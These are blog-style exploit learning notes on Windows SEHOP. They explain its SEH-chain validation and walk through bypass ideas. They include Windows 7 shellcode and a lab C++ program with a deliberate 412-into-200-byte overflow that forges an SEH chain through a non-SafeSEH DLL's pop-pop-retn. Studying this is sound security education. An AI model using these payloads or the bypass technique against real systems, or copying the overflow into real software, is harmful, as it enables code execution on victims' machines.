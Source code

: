 ```yaml
---
title: Exploit learning notes 020 SEHOP introduction
description: Introduction to SEHOP and a little simple attack
date: 2020-11-28 15:38:00+0800
categories:
    - Exploit
tags:
    - Windows
    - SEHOP
---
```


Source: [Moeomu's blog](/posts/exploit-learning-notes-020-sehop-introduction/)

## Introduction

The core task of SEHOP is to check the integrity of the S.E.H chain. Before the program turns to exception handling SEHOP checks whether the last exception handling function on the S.E.H chain is the ultimate exception handling function fixed by the system. If yes, it means this S.E.H chain is not broken and the program can go to execute the current exception handling function; if it detects that the last exception handling function is not, it means the S.E.H chain is broken and an S.E.H override attack may have occurred and the program will not go to execute the current exception handling function

> SEHOP validation pseudocode

```cpp
if (process_flags & 0x40 == 0)  // 如果没有SEH记录则不进行检测
{
    if (record != 0xFFFFFFFF)  // 开始检测
    {
        do
        {
            if (record < stack_bottom || record > stack_top) // SEH 记录必须位于栈中
                goto corruption;
            if ((char *)record + sizeof(EXCEPTION_REGISTRATION) > stack_top) // SEH 记录结构需完全在栈中
                goto corruption;
            if ((record & 3) != 0) // SEH记录必须4字节对齐
                goto corruption;
            handler = record->handler;
            if (handler >= stack_bottom && handler < stack_top) // 异常处理函数地址不能位于栈中
                goto corruption;
            record = record->next;
        } while (record != 0xFFFFFFFF); // 遍历S.E.H链
    }
    if ((TEB->word_at_offset_0xFCA & 0x200) != 0)
    {
        if (handler != &FinalExceptionHandler) // 核心检测，地球人都知道，不解释了
        goto corruption;
    }
}
```

## Attack ideas

### Attack the return address

> If the function has SEHOP enabled but not GS enabled or if the function does not have GS enabled, then directly attack the return address

### Attack the virtual function

> SEHOP only protects SEH, but it does not protect the dummy function table, so the attack on the dummy function can still be successful

### Exploit modules that do not have SEHOP enabled

> Microsoft has disabled SEHOP for some encryption shells, e.g. Armadilo

- For example, we can set these two options to `0x53` and `0x52` respectively to simulate a program that has been shelled by `Armadilo`, so as to Disable SEHOP
- In Windows 7 and later, the second module pointed to by `PEB_LDR_DATA` is occupied by `KernelBase.dll`, so the shellcode should be changed

```c
Shellcode_for_windows7=
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
"\x49\x1C\x8B\x09"
"\x8B\x09" // 在这增加机器码\x8B\x09，它对应的汇编为mov ecx,[ecx]
"\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
"\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50"
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8"
;
```

### Fake SEH chain table

> Prerequisite: ASLR is not enabled

- Idea
  - Bypass `SafeSEH` by using `SEH_NOSafeSEH_JUMP.dll` which is not `SafeSEH` enabled
  - Bypass `SEHOP` by forging the S.E.H chain to create the illusion that the S.E.H chain is not broken
  - The test function in `SEH_NOSafeSEH` has a typical overflow, i.e., it causes a str overflow by copying an extra-long string to str, which in turn overwrites the program's S.E.H information
  - Use the `pop pop retn` instruction address in `SEH_NOSafeSEH_JUMP.DLL` to overwrite the address of the exception handling function, and then transfer the program to exception handling by creating a divide-by-0 exception
  - By hijacking the exception handling process, the program is transferred to `SEH_NOSaeSEH_JUMP.DLL` to execute the `pop pop retn` instruction, and after executing `retn` the program is transferred to `shellcode` for execution.

- Code

```cpp
#include <string.h>
#include <windows.h>

char shellcode[] =
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90"
"\x14\xFF\x12\x00" // address of last seh record
"\x12\x10\x12\x11" // address of pop pop retn in No_SafeSEH module
"\x90\x90\x90\x90\x90\x90\x90\x90"
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
"\x49\x1C\x8B\x09"
"\x8B\x09" // 在这增加机器码\x8B\x09，它对应的汇编为mov ecx,[ecx]
"\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
"\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50"
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8\x90\x90"
"\xFF\xFF\xFF\xFF" // the fake seh record
"\x75\xA8\xF7\x77"
;

DWORD MyException(void)
{
    printf("There is an exception");
    getchar();
    return 1;
}

void test(char * input)
{
    char str[200];
    memcpy(str, input, 412);
    int zero = 0;
    __try
    {
        zero = 1 / zero;
    }
    __except(MyException()){}
}

int main()
{
    HINSTANCE hInst = LoadLibrary(_T("SEH_NOSaeSEH_JUMP.dll")); // load No_SafeSEH module
    char str[200];
    test(shellcode);
    return 0;
}
```
